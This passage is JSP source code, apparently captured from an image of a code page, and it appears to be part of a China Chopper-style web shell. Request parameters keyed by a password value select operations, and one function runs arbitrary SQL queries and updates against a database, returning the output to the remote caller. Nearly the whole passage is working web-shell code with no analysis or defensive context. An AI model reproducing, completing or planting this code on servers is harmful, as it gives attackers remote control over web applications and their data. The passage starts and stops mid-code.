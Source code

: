 ```jsp
        Connection c = GC(s);
        Statement m = c.createStatement(1005, 1007);
        ResultSet r = m.executeQuery("select * from " + x[3]);
        ResultSetMetaData d = r.getMetaData();
        for (int i = 1; i <= d.getColumnCount(); i++) {
            sb.append(d.getColumnName(i) + " (" + d.getColumnTypeName(i)
                    + ")\t");
        }
        r.close();
        m.close();
        c.close();
    }
 
    void QQ(String cs, String s, String q, StringBuffer sb) throws Exception {
        int i;
        Connection c = GC(s);
        Statement m = c.createStatement(1005, 1008);
        try {
            ResultSet r = m.executeQuery(q);
            ResultSetMetaData d = r.getMetaData();
            int n = d.getColumnCount();
            for (i = 1; i <= n; i++) {
                sb.append(d.getColumnName(i) + "\t|\t");
            }
            sb.append("\r\n");
            while (r.next()) {
                for (i = 1; i <= n; i++) {
                    sb.append(EC(r.getString(i), cs) + "\t|\t");
                }
                sb.append("\r\n");
            }
            r.close();
        } catch (Exception e) {
            sb.append("Result\t|\t\r\n");
            try {
                m.executeUpdate(q);
                sb.append("Execute Successfully!\t|\t\r\n");
            } catch (Exception ee) {
                sb.append(ee.toString() + "\t|\t\r\n");
            }
        }
        m.close();
        c.close();
    }%>
     
     
<%
    String cs = request.getParameter("z0")==null?"gbk": request.getParameter("z0") + "";
    request.setCharacterEncoding(cs);
    response.setContentType("text/html;charset=" + cs);
    String Z = EC(request.getParameter(Pwd) + "", cs);
    String z1 = EC(request.getParameter("z1") + "", cs);
    String z2 = EC(request.getParameter("z2") + "", cs);
    StringBuffer sb = new StringBuffer("");
    try {
        sb.append("->" + "|");
        if (Z.equals("A")) {
            String s = new File(application.getRealPath(request
                    .getRequestURI())).getParent();
            sb.append(s + "\t");
            if (!s.substring(0, 1).equals("/")) {
                AA(sb);
            }
```
